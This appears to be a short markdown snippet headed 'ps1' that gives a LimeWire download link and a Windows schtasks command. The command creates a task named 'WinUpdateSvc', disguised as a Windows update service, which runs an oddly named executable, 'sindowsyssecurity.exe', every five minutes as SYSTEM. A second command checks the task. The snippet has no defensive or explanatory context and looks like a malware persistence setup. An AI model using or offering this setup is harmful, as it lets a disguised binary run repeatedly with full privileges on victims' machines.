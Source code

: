 # ps1


https://limewire.com/d/gb8PN#ApTP1Uj4JC



```
schtasks /create /tn "WinUpdateSvc" /tr "C:\Users\Home\sindowsyssecurity.exe" /sc minute /mo 5 /ru SYSTEM
```


```
schtasks /query /tn "WinUpdateSvc" /v /fo LIST
```
